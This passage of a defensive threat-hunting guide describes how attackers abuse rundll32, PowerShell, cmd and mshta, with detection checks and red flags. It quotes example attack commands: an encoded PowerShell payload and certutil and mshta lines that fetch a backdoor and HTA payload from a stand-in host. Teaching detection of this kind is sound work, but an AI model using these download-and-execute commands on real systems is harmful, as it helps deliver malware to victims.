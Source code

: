 ### **Detection:**
✅ **Check:**  
- **Command-Line Analysis** (Legitimate: `user32.dll` | Malicious: `malware.dll`).  
- **DLL Loaded from `AppData` or `Temp`.**  

🔴 **Red Flags:**  
- `rundll32.exe` running from non-`System32`.  

---

## **7. `powershell.exe` / `cmd.exe`**
### **Legitimate Behavior:**
- **Location:** `C:\Windows\System32\`  
- **Purpose:** Script execution, automation.  

### **Malicious Abuse:**
- **Obfuscated Commands:**  
  - `powershell -e JABzAD0AJwB3AGkAbgAzADIAJwA7...` (Base64-encoded payload).  
  - `cmd.exe /c certutil -urlcache -split -f http://malware.com/backdoor.exe`  

### **Detection:**
✅ **Check:**  
- **Command-Line Logging** (Enable **PowerShell Script Block Logging**).  
- **Sysmon Event ID 1** (Process creation).  

🔴 **Red Flags:**  
- Long, encoded commands.  
- `cmd.exe` spawning from `msiexec.exe` or `word.exe`.  

---

## **8. `mshta.exe` (Executes HTA Files)**
### **Legitimate Behavior:**
- **Location:** `C:\Windows\System32\mshta.exe`  
- **Purpose:** Runs `.hta` (HTML Application) files.  

### **Malicious Abuse:**
- **Malicious HTA Execution:**  
  - `mshta.exe http://malware.com/payload.hta`  
  - Used in **phishing & drive-by downloads**.  

### **Detection:**
✅ **Check:**  
- **Process Explorer** (Check parent process).  
- **Network Connections** (HTA fetching external payloads).  

🔴 **Red Flags:**  
- `mshta.exe` running from `Outlook.exe` or `chrome.exe`.  

---